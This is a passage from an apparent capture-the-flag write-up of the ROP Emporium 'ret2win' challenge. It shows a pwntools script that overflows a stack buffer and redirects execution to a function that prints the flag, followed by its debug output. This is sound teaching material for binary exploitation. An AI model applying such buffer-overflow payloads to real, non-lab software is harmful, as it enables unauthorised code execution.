 At this point, the challenge was nice enough to dump the flag by simply jumping to the `ret2win()` function as it invokes `system("/bin/cat flag.txt")`, so let's update the code to do that.

In the code below, I leveraged `pwntools` ROP wrapper which we will use in future binary exploitation challenges. The example below doesn't really chain anything since the only function invoked is `ret2win()`. However, its good to be familiar with this foundation.

In short, we will redirect the RIP register to point to the memory address of the `ret2win()` function which will capture the flag for us:

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './ret2win'

# Start the process
io = process(PROCESS)

rop = ROP(io.elf)
ret2win = p64(io.elf.symbols['ret2win'])
rop.raw(ret2win)
info(rop.dump())

# Build the payload
crash_size = 128
offset = 40
padding = b"A" * offset
rop_chain = rop.chain()
remaining = b"B" * (crash_size - len(padding) - len(rop_chain))
payload = b"".join([
   padding,
   rop_chain,
   remaining
])

# Pwn!
io.clean()
io.sendline(payload)
io.clean()
io.wait()
```

```
$ python3 exploit.py
[+] Starting local process './ret2win' argv=[b'./ret2win'] : pid 4895
[DEBUG] PLT 0x400550 puts
[DEBUG] PLT 0x400560 system
[DEBUG] PLT 0x400570 printf
[DEBUG] PLT 0x400580 memset
[DEBUG] PLT 0x400590 read
[DEBUG] PLT 0x4005a0 setvbuf
[*] '/home/kali/ctf/rop-emporium/ret2win/x64/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './ret2win'
[DEBUG] PLT 0x400550 puts
[DEBUG] PLT 0x400560 system
[DEBUG] PLT 0x400570 printf
```